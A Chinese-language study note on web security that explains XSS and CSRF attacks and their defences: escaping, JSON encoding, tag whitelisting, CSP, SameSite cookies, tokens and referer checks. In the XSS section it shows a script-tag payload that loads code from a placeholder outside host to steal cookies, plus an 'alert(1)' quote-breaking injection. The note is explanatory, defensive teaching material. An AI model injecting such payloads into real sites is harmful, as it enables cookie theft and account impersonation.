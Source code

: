 ## XSS 跨站脚本攻击

即注入脚本到页面，为所欲为。例如当后台的html模板为`<div>#{content}</div>`,而其中的content正好是我们前台传递过来的url的参数，
这时如果我们传入的url参数为一个脚本，例如`<script src='http://xxx.xxx.xx/index.js'></script>`这个时候我们就可以在这注入的脚本里面为所欲为。
如盗用cookies进而冒充登陆,盗取数据等等。

跨站攻击有几种分类:
- url参数直接注入 (反射型)
- 存储到数据库中后被读取时注入 (存储型)

注入点：
- html内容
- 属性
- javaScript代码
- 富文本

## XSS 的防御
可直接使用已有的轮子`XSS`。
### 转义
#### html内容
将`<`和`>`分别用`&lt;`和`&gt;`来替换

#### html属性
- <img class = "#{class}">, 当class当中含有引号的时候，会将属性提前关闭，对应的策略任然是转义,使用`&quto;`来替代双引号，使用`&#39`来代替单引号  

#### javaScript代码
当我们的代码当中含有后台传回来的数据的时候，也有可能由于引号问题而提前结束字符串， 如下
```
<script>
    var data = "#{data}" 
    // 当出现XSS攻击的时候上面的data可能成为这样: var data = "hello";alert(1);"";
</script>
```
- 解决办法之一是将data当中的双引号转义`"` => `\"`， 但是这种方式不能完全解决问题
- 正确的解决办法是在返回数据的时候使用JSON.stringfy将数据转换成JSON格式，它会对引号等进行转义，更加方便

#### 富文本

- 使用黑名单: 即过滤那些不允许的标签 // 不推荐
- 使用白名单: 遍历html，不在白名单当中的标签和属性应该删除，可使用`cheerio`这个库莱操作`dom`

### CSP 指定哪些内容可以执行
内容安全策略( CSP ) - HTTP | MDN
- 参看MDN


## CSRF 跨站请求伪造

通过发送请求来进行攻击，例如有一个网站a, 它有它的前端和后端，当用户登陆后，会在本地保存自己的cookies，
然后有一个攻击者b的网站，当用户无意间，点击进入了b的网站。
b网站的脚本会创建一个form表单，并设置相应的值，然后触发提交，利用form表单的无跨域限制，
冒充用户的身份使用post或者get去发送或者获取一些数据到a网站的后台，这样是特别危险的

## CSRF 防御
### 禁止第三方网站携带Cookies
设置Cookies的samesite选项，但是现在只有chrome支持它

### token 和 验证码

因为CSRF一般是不会经a网站的前端的，所以我们可以在a网站的前端添加一些信息，这样攻击者的b网站就拿不到我们的信息
- 验证码: 可以用轮子，如`ccap`, 前后端配合，后端生成验证码图片和数据，把图片返回给前端，数据可以用户id为键存储起来，下一次请求来的时候将验证码和之前存的进行比对
- token: 一个随机的字符串。

### 验证 referer

通过验证referer来禁止第三方网站的访问   